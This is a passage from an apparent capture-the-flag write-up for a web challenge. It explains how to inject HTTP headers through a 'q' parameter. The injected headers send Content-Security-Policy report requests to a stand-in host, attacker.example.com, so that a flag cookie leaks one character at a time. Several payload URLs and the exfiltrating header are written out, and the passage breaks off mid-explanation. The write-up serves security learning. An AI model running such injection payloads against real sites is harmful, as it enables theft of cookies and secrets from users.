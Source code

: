 ```javascript title="bot/bot.js"
  await browser.close();

  console.log(`end: ${url}`);
};
```

From the implementation, the goal seems to steal the flag cookie with XS-Leak.

### Solution

Obviously, you can perform header injection attacks for a parameter `q`.

If you access the following URL:
```javascript
location = "http://localhost:3000?q=" +
  encodeURIComponent(`Content-Type: text/html\n\n<h1>Injected</h1>`)
```

The website will show:

![](./img/cgi-2023-01.png)

Is there a useful header that could be used for XS-Leaks?

My solution used `Content-Security-Policy-Report-Only`:

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only

If the following header exists, a CSP error report is sent to the attacker server when the subresource integrity (SRI) check fails for `style-src`:
```
Content-Security-Policy-Report-Only: style-src 'sha256-...'; report-uri http://attacker.example.com
```

Now, consider the following URL:
```javascript
location = "http://localhost:3000?q=" + encodeURIComponent(`
Content-Type: text/html
Content-Length: 74
Content-Security-Policy-Report-Only: style-src 'sha256-sUk0UQj8k0hBY6zv2BrvpRoV2OT8ywX8KXOsunsVi9U='; report-uri http://attacker.example.com

<style>`.trimStart())
```
where `sha256-sUk0UQj8k0hBY6zv2BrvpRoV2OT8ywX8KXOsunsVi9U=` is the integrity value of the following string:
```
Status: 200 OK
Content-Type: text/plain; charset=utf-8

SECCON{d
```
